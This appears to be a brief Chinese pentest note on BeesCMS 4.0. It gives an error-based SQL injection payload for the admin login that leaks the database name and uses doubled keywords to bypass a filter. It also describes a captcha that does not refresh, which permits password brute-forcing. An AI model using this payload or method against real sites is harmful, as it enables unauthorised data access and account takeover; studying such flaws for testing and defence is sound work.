


### beescms

```
版本信息：4.0
```

#### sql注入

后台登录处，在用户名后加单引号发现报错

```
admin' a and nd extractvalue(1,concat(0x7e,(select database()),0x7e))#
```


#### 后台验证码不刷新

输入一次正确的验证码然后抓包，可以发现多次改变密码都是提示密码错误



对密码进行爆破

